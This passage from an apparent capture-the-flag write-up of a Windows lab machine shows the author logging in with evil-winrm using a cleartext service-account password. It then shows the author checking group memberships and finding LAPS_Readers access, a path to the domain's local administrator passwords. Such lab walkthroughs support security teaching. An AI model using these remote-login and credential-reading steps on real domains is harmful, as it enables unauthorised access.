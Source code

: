 A username/password pair! I used this information in evil_winrm to login as `svc_deploy`.

```console
evil-winrm -i 10.10.11.152 -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -r timelapse

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Warning: User is not needed for Kerberos auth. Ticket will be used

Warning: Password is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

Earlier when we accessed the `Shares` share, the `HelpDesk` directory contained documents relating to LAPS. LAPS or Local Administrator Password Solution is a Microsoft product that manages the local administrator password and stores it in Active Directory. It randomizes the password regularly. There is a LAPS Readers that lists users who have the permission to read the password.[^3] So I checked if `svc_deploy` is part of this group.

```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ 
==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled 
group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled 
group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled 
group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled 
group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled 
group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled 
grou
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled 
group
TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled 
group
```

[^1]: https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
[^2]: https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/
[^3]: https://itconnect.uw.edu/wares/msinf/ous/laps/
[^4]: https://smarthomepursuits.com/export-laps-passwords-powershell/